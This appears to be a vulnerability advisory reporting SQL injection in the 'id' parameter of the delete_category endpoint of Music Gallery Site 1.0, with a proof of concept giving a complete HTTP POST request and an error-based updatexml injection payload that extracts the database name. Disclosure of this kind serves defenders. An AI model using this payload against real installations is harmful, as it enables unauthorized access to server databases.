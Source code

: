 ## Music Gallery Site has a front-end SQL injection vulnerability

## Affected version: 
Music Gallery Site - 1.0

## Author:
Liuhaobin

## Software:
https://www.sourcecodester.com/php/16073/music-gallery-site-using-php-and-mysql-database-free-source-code.html

## Vulnerability File:
/php-music/classes/Master.php?f=delete_category

## Description:
Music Gallery Site 1.0 is vulnerable to an unrestricted SQL injection attack in /php-music/classes/Master.php?f=delete_category  with the attack parameter id. An attacker can exploit this vulnerability to directly obtain sensitive server information. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
POST /php-music/classes/Master.php?f=delete_category HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 63
Origin: http://localhost
Connection: close
Referer: http://localhost/php-music/admin/?page=categories
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

id=4%27+and+updatexml(1%2Cconcat(0x7e%2C(database()))%2C3)--+q 
```

<img width="1217" alt="image" src="https://github.com/user-attachments/assets/f314b3cb-c93d-4435-864b-932023bf1910">





